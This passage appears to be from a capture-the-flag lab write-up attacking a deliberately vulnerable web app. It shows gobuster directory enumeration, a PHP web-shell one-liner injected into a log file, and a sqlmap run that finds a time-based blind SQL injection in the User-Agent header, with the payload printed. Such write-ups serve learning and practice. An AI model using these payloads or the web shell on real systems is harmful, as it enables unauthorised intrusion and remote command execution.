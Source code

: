 ```console
root@kali:~$ gobuster dir -u http://127.0.0.1:8080/littlesecrets-main -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --proxy http://192.168.179.160:31337/  -x php,html,txt
...
/index.html           (Status: 200) [Size: 583]
/login.php            (Status: 200) [Size: 68] 
/logs.php             (Status: 200) [Size: 728790]
```

I injected it the logs file with a web shell, apparently the php code is not being interpreted.

![](/assets/images/pinkys1/screenshot-8.png)

```console
root@kali:~$ curl -s http://127.0.0.1:8080/littlesecrets-main/logs.php --proxy http://192.168.179.160:31337 | html2text -width 800 | tail -1
*** 39212 <?php system($_GET["cmd"])?> <?php system($_GET["cmd"])?> Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0 ***
```

## Exploitation
### SQL Injection

To perform a more advanced test I used sqlmap against the login form, an SQL injection was detected in the User-Agent header.

```console
root@kali:~$ sqlmap -u 'http://127.0.0.1:8080/littlesecrets-main/login.php' --data 'user=pinky&pass=password' --proxy 'http://192.168.179.160:31337' --level 5 --risk 3 --threads 5 --dbms MYSQL
...
parameter 'User-Agent' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 8816 HTTP(s) requests:
---
Parameter: User-Agent (User-Agent)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: sqlmap/1.5.7#stable (http://sqlmap.org)' AND (SELECT 4717 FROM (SELECT(SLEEP(5)))pGuK) AND 'ugVr'='ugVr
---
[20:47:08] [INFO] the back-end DBMS is MySQL
...
```
